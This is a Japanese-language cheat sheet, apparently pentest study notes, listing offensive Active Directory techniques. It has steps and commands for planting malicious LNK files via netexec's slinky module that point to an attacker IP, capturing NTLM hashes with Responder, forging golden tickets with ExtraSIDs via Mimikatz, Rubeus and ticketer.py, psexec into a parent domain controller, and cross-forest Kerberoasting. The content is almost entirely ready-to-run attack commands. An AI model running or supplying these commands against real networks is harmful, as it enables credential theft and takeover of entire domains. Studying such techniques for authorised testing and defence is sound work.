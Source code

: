 
## LNK File Attack
攻撃の流れ
1.  悪意ある .lnk（ショートカット）ファイルを作る
2.  その .lnk ファイルを共有フォルダに置く
3. ターゲットがアクセス・表示するのを待つ
4. Responderでハッシュを取得

.inkファイルを公開共有フィルだに設置する
```sh
netexec smb <AD参加ホスト> -d <ドメイン名> -u <ユーザー名> -p <パスワード> -M slinky -M slinky -o NAME=test SERVER=<攻撃者IP>
```

Responderを実行し、ハッシュが飛んでくるのを待つ
```sh
sudo responder -I eth0 -dPv
```
## ドメイン信頼関係の悪用
### SID History / ExtraSIDs (子→親)
子ドメインのKRBTGTハッシュと親ドメインの特権グループSIDを使用してGolden Ticketを作成し、親ドメインを掌握
- Mimikatz (Golden Ticket)
```powershell
kerberos::golden /user:<FAKE_USER> /domain:<CHILD_DOMAIN_FQDN> /sid:<CHILD_DOMAIN_SID> /krbtgt:<CHILD_KRBTGT_HASH> /sids:<PARENT_ENTERPRISE_ADMIN_SID> /ptt
```
- Rubeus (Golden Ticket)
```powershell
.\Rubeus.exe golden /rc4:<CHILD_KRBTGT_HASH> /domain:<CHILD_DOMAIN_FQDN> /sid:<CHILD_DOMAIN_SID> /sids:<PARENT_ENTERPRISE_ADMIN_SID> /user:<FAKE_USER> /ptt
```
- ticketer.py (Linux)
```shell
ticketer.py -nthash <CHILD_KRBTGT_HASH> -domain <CHILD_DOMAIN_FQDN> -domain-sid <CHILD_DOMAIN_SID> -extra-sid <PARENT_ENTERPRISE_ADMIN_SID> <FAKE_USER>
```

```shell
export KRB5CCNAME=<FAKE_USER.ccache>
```

```shell
psexec.py <CHILD_DOMAIN_FQDN>/<FAKE_USER>@<PARENT_DC_FQDN> -k -no-pass -target-ip <PARENT_DC_IP>
```
### クロスフォレストKerberoasting
信頼関係のある別フォレストのドメインに対してKerberoasting攻撃を行い、サービスアカウントのハッシュを取得
- Rubeus (Windows)
```powershell
.\Rubeus.exe kerberoast /domain:<TARGET_FOREST_DOMAIN> /user:<TARGET_SPN_USER> /nowrap
```
- GetUserSPNs.py (Linux)
```shell
GetUserSPNs.py -request -target-domain <TARGET_FOREST_DOMAIN> <CURRENT_DOMAIN>/<USER>:<PASSWORD>
```
### 管理者パスワードの使い回し
異なるドメイン間で管理者アカウントのパスワードが再利用されていないか確認
### グループメンバーシップの悪用 (他ドメインメンバー)
他ドメインのユーザーがローカルドメインの特権グループに所属していないか確認
- PowerView
```powershell
Get-DomainForeignGroupMember -Domain <TARGET_DOMAIN>
```
